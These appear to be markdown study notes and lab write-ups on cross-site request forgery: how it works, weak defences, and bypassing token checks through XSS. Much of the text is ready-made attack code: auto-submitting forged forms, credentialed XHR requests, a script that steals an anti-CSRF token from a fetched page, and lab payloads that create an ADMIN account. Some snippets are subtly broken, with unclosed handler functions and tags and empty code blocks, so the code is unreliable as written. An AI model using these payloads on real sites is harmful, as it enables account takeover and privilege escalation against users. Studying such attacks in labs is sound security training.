


# CSRF


Everyday web applications perform several cross site requests, such as: requiring external hosted images, JavaScript code, stylesheets, etc. There is nothing wrong with this, quite simply because it’s the way the Web works.

The “wrong part” is when these requests are forged in order to send money to the attacker by both performing privileged actions and other malicious operations.

CSRF attacks allow one to exploit the trust relationship between a web application and the HTTP requests made by its users.

This forces them to perform arbitrary operations on behalf of the attacker.

Even though the web browser's SOP places huge limitations on the attack vectors (done by preventing the attacker from reading the responses to its cross domain requests), it does not apply to performed requests.

Because the attacker only needs to forge requests and not read responses, we could classify CSRF as a one way attack


A web application is vulnerable to CSRF attacks if:

1. When tracking sessions, the application relies both on mechanisms like HTTP Cookies and Basic Authentication which are automatically injected into the request by the browser.
2. The attacker is able to determine all the required parameters in order to perform the malicious request i.e., no unpredictable parameters are required).


In order to exploit a CSRF flaw successfully the attacker must do the following:

1. Make sure that the victim has a valid and active session when the malicious request is executed.
2. Be able to forge a valid request on behalf of the victim.


----

## Attack Vectors

### Force Browsing with GET

As we already know, an effective CSRF attack is when the attacker is able to force the victim's browser into making a valid HTTP request on the target application.
The simplest scenario is when the victim application makes use of HTTP GET requests to perform the vulnerable operation.


For instance, let’s consider a simple form in a member's area which allows users to change their email address.
The mechanism is simple: provide the new address and submit the form.


```html
<form action="change.php"
<label name="email">Your email is: <b>myC00Lemail@victim.site</b></label>
<input type="hidden" name="old" value="myC00Lemail@victim.">
<label name="email">New email</label>
<input type="email" name="new" placeholder="your new email" required>
<input type="submit" value="Confirm">
</form>
```

As noted, the form is submitted using the HTTP GET method and does not adopt any anti CSRF protection.
Now, to exploit this vulnerability, we need to generate a GET request and then trick the victim (or their browser) into executing it.


The simplest method to generate a GET request is to use images. This is merely because GET is the standard method used when requesting an image with HTML.

```html

```

To deliver the attack, we must exploit an existing flaw like XSS, and inject either HTML or JavaScript. Otherwise, we need to social engineer the victim in order to have them visit our malicious page or click a link we provide.


The example with the IMG tag is very common; however, it is not the only solution to forging GET requests by using only HTML tags. These are some alternative methods of accomplishing this.

HTML4:

- `<a href=url>`
- `<applet codebase=url>`
- `<area href=url>`
- `<base href=url>`
- `<blockquote cite=url>`
- `<body background=url>`
- `<del cite=url>`
- `<form action=url>`
- `<frame longdesc=url>` and `<frame src=url>`
- `<head profile=url>`
- `<iframe longdesc=url>` and `<iframe src=url>`
- `` and `` and ``
- `<input src=url>` and `<input usemap=url>`
- `<ins cite=url>`
- `<link href=url>`
- `<object classid=url>` and `<object codebase=url>` and `<object data=url>` and `<object usemap=url>`
- `<q cite=url>`
- `<script src=url>`

HTML 5 adds a few (and HTML5 seems to not use some of the ones above as well):

- `<audio src=url>`
- `<button formaction=url>`
- `<command icon=url>`
- `<embed src=url>`
- `<html manifest=url>`
- `<input formaction=url>`
- `<source src=url>`
- `<track src=url>`
- `<video poster=url>` and `<video src=url>`


### Post Requests

Submitting data that needs to be processed server side utilizing the HTTP GET method is not a good idea. GET requests should only be used to retrieve information while POST is the appropriate method to use when dealing with sensitive data.

Even if the ways of distributing the CSRF attack and deceiving the victim are the same, exploiting a CSRF flaw with a form action, requiring HTTP POST is slightly different than GET

Using only HTML, the only way to forge POST requests is with the attribute method of tag FORM

```html
<form action="somewhere" method="POST">
```

As a result, we need to create a cloned form and then social engineer the victim into clicking the submit button.


However, this is only one of many possible scenarios. We can use HTML + JavaScript and create a much more effective attack that does not require user interaction.

Let’s look at the evolution of the previous change email example, but this time using POST

Auto submitting a form requires the submit() method and a bit of JavaScript, as we can see below:

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site">
</form>

<script> document.getElementById("CSRForm").submit()</script>
```


The script tag is not our only option in this context. By using event handlers, we can further add HTML elements in the malicious page. For example, `onload` and `onerror` are event handlers that do not require user interaction.

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site">
    
</form>
```


Another example uses a new attribute introduced in HTML5, `autofocus` and the related event handler `onfocus`

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
</form>
```


using iframe:

```html
<iframe style="display:none" name="CSRFrame"></iframe>
<form action="change.php " method="POST" id="CSRForm" target="CSRFrame">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
</form>
<script> document.getElementById("CSRForm").submit()</script>
```

`target="CSRFrame"` to display the response received submitting the form in the iframe!


using XMLHttpRequest (XHR):

```javascript
var url = "URL";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send(params);
```


using jQuery:

```javascript
$.ajax({
type: "POST",
url: "URL",
data: "old=mycoolemail@victim.site&new=evil@hacker.site",
});
```


----

## Exploiting Weak Anti-CSRF Measures
As seen,  exploiting a CSRF flaw can be straightforward if the website lacks anti CSRF security measures; however, nothing changes if the security defenses are poor or weak.

There are several well known solutions that do not provide adequate protection. If these measures are in place, then our attack could be a little more difficult; however, surely this will not stop from exploiting the CSRF flaw.


#### Using POST only Requests
As a result, using POST requests for sensitive operations is better practice and protects against a well known class of CSRF attack vectors. These allow the attacker to construct a malicious link, such as requesting an embedded image, iframe, etc.

Of course, using POST requests instead of GET will raise the bar for CSRF. As we have seen previously, there are several methods by which an attacker can trick a victim into submitting a POST request.

As a result, using POST requests for sensitive operations is better practice and protects against a well known class of CSRF attack vectors. These allow the attacker to construct a malicious link, such as requesting an embedded image, iframe, etc.


#### Checking Referer Header

The HTTP Referer header was introduced to allow a server to check where a request was originated and therefore perform logging, optimized caching, etc.

Although spoofing the Referer header is quite trivial using browser extension or web proxies, this is clearly not possible in a CSRF attack. It is because of this that many developers adopt this measure as a solution to prevent CSRF attacks.

However, this implementation has some common mistakes. Perhaps the most notable is the referrer not being sent if the website is using SSL/TLS. This doesn't take into consideration that firewalls, corporate proxies, etc. might remove this header.

In this case, developers need to add some business logic in order to understand whether the request is an attack or a legitimate request.

Generally speaking, checking the Referer header is something more attuned to an intrusion detection rather than being a solid anti CSRF counter measure.

It can help in detecting some attacks; however, it will not stop all attacks. An example is an XSS flaw in the same origin!


#### Predictable Anti-CSRF Token
One of the most effective solutions for reducing the likelihood of CSRF exploitation is to use a Synchronizer Token Pattern , commonly called Anti CSRF Tokens . This design pattern requires the generating of a challenge token that will be inserted within the HTML page. Another countermeasure might be SameSite cookie.

Once the user wishes to invoke operations that require the token, then it must be included in the request.

In addition to the correct implementation of the token pattern system, it is essential that the token values are randomly generated.

This is so that they cannot be guessed by an attacker.

Obviously, if a web application uses easily guessable tokens as anti CSRF measure, it is extremely vulnerable.


#### Unverified Anti-CSRF Token
Another possible scenario is when the application implements strong Anti CSRF tokens but lacks the verification server side. This may seem unlikely, but it has occurred!


#### Secret Cookies

Developers are always thinking of security through obscurity, and the fact that, oftentimes, they use secret cookies are evident. The concept with this technique is to create a cookie containing secret information (MD5 hash of a random secret…) and then check if it is included in the user's request. 

Clearly, this is not in any way a security measure. Cookies, both by specification and design, are sent with every request; therefore, once a user sets a cookie, they are passed to the site/application no matter what, regardless of user intention.


----


## Bypassing CSRF Defenses with XSS

Anti CSRF token mechanisms, and other CSRF prevention techniques, have been introduced to mitigate security attacks involving Cross site Request Forgery however, not stacked attacks that involve Cross site Scripting (XSS).

A single XSS flaw is like a storm that overwhelms the entire CSRF protection system.

Technically, once we have exploited an XSS flaw, we are in the same origin of the CSR. All defenses against CSRF, except Challenge Response mechanisms , are useless

[Synchronizer token](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#synchronizer-token-pattern), Checking the Referer header and Checking the Origin header can all be bypassed.


### Bypassing Header Checks

Checking Referer and Origin headers simply means that the request must come from a proper origin.

Bypassing these types of defense measures are straightforward as long as we have effectively exploited an XSS vulnerability.


#### Bypassing Anti-CSRF Token
The scenario changes when the security measure is implemented using the Synchronizer Token Pattern . To circumvent this protection, we need to hijack the Anti CSRF token from a valid form and then use the token stolen in our forged form.

Once the XSS flaw has been detected there are generally two scenarios that play out. The first, and " luckiest " occurs when XSS and CSRF protected forms are contained on the same page. The second possibility is that the XSS flaw is located in another part of the web application.

Bypassing an Anti CSRF based mechanism there are generally 2 3 steps required, depending on where it is located the XSS.




Obviously, exploiting the XSS does not mean alert(1) , but rather " include my JavaScript evil lib ”. This library will contain all the functions useful in performing our steps.

Let’s check out some possible implementations of what we need.


##### 1- Request a Valid Form with a Valid Token

During the first step, we need the HTML of the page where the target form is located.

Worst case scenario, the XSS is not located on the same page of the target form; therefore, we cannot access the DOM directly using JavaScript. Thus, we need to `GET` the HTML source of the page.

To get the page's HTML using `XMLHttpRequest` is simple.

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if(this.readyState == 4) {
    var htmlSource = xhr.responseText;
  }
xhr.open("GET", "http://victim.site/csrf-form-page.html", true);
xhr.send();
```


##### 2- Extract the Valid Token from the Source

The second step requires us to extract the Anti-CSRF token from the page. In the best case scenario, we can access the DOM quite easily (see the following example):

```
var token = document.getElementsByName('csrf_token')[0].value
```


Whereas, it is slightly different if the XSS is located on a different page. In this case, we need to extract the token from the result of the first step (a string containing the HTML of the target page).

There are multiple options available to both inspect the string result and extract the anti CSRF token. Let’s check out two of those options, the first one using a regex based approach and the [DOMParser](https://developer.mozilla.org/en-US/docs/Web/API/DOMParser/DOMParser) API.




##### 3-Forge the Form with the Stolen Token

The final step, once we have a valid token, is to add the anti CSRF token in the forged form and send the attack by using the techniques we have seen in the previous sections

if we have a csrf token in `adduser.php` and xss in another page. we need to get the csrf token first, then send the `POST` request containing the csrf token.

```html
<script>
function addUser(token){
var url = "http://victim.site/adduser.php";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site&csrf_token="+token;
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);
}

// First send a request to get the csrf token, then send the POST request with the token
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if(this.readyState == 4) {
    var htmlSource = xhr.responseText;
    
    //Extract the csrf token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById('CSRFToken').value;
    addUser(token);
  }
xhr.open("GET", "http://victim.site/csrf-form-page.html", true);
xhr.send();

</script>
```


----


## Bypassing Anti-CSRF Token Brute Forcing
As we have already discussed previously, the Anti-CSRF tokens must be random and unpredictable. Weak and predictable tokens expose the application to brute force attacks.

If we are able to steal a victim’s valid cookie, then the attacks are quite easy. We can use either Burp Repeater or custom scripts like ruby, python or any other non browser mechanisms to generate a tremendous number of requests.


you can analyze CSRF tokens using burp sequencer by capturing 20000 token and analyze them to view the entropy. 


### Lab1

add this script in hacker.site/index.html

```html
<!DOCTYPE html>
<html>

<body bgcolor="#000000">
        

    <form id="CSRForm" method="POST" action="http://1.csrf.labs/add_user.php">
            <input type="hidden" name="name" value="Malice">
            <input type="hidden" name="surname" value="Smith">
            <input type="hidden" name="email" value="malice@hacker.site">
            <input type="hidden" name="role" value="ADMIN">
            <input type="hidden" name="submit[]" value="">
    </form>
    <script>
            document.forms[0].submit();
    </script>

</body>
</html>
```

**Note:** with `<input type="hidden" name="submit"  value="">`  i got an error because the submt in not a function => `Uncaught TypeError: CSRForm.submit is not a function`.

 I resolved the error by including a hidden input with the name "submit[]" in the form. This allowed me to send the "submit" parameter as part of the request to `add_user.php`, which is a mandatory field. and also i could submit the form successfully.

 

**Another solution**

```html

<!DOCTYPE html>
<html>

<body bgcolor="#000000">
        

<script type="text/javascript">
        var url = "http://1.csrf.labs/add_user.php";
        var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=";
        var CSRF = new XMLHttpRequest();
        CSRF.open("POST", url, true);
        CSRF.withCredentials = true;
        CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        CSRF.send(params);
</script>
</body>
</html>
```


### Lab2

add this script in the feedback page.

```html
<script>

var url = "http://2.csrf.labs/add_user.php";
var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);

</script>
```

here, the request of adding a new user should have a referrer header = "http://2.csrf.labs/". So the PoC from hacker.site will not work and we need to issue the request from the vulnerable website using XSS in the feedback page.


### Lab3

add this script in the feedback page.

```html
<script>
function addUser(token){
var url = "http://3.csrf.labs/add_user.php";
var params = "name=Smith&surname=Malice&email=malice%40hacker.site&role=ADMIN&submit=&CSRFToken="+token;
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, true);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send (params);
}

// First send a request to get the csrf token, then send the POST request with the token
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
  if(this.readyState == 4) {
    var htmlSource = xhr.responseText;
    
    //Extract the csrf token
    var parser = new DOMParser().parseFromString(htmlSource, "text/html");
    var token = parser.getElementById('CSRFToken').value;
    addUser(token);
  }
xhr.open("GET", "http://3.csrf.labs/users.php", true);
xhr.send();

</script>
```

here, the referrer header and csrf token should exist.

